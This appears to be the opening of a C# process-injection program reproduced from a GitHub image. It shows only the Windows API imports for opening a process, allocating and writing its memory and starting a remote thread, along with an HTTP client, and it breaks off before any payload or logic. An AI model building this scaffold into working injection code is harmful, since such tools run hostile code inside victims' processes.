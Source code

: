 - modified code to make it more modern
```csharp
using System;

using System.Diagnostics;

using System.Net;

using System.Runtime.InteropServices;

using System.Text;

  

namespace Inject

{

    class Program

    {

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]

        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

  

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]

        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

  

        [DllImport("kernel32.dll")]

        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

  

        [DllImport("kernel32.dll")]

        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

  

        [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]

        static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

  

        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]

        public static extern IntPtr GetModuleHandle(string lpModuleName);

  

        static readonly HttpClient client = new HttpClient();

  
```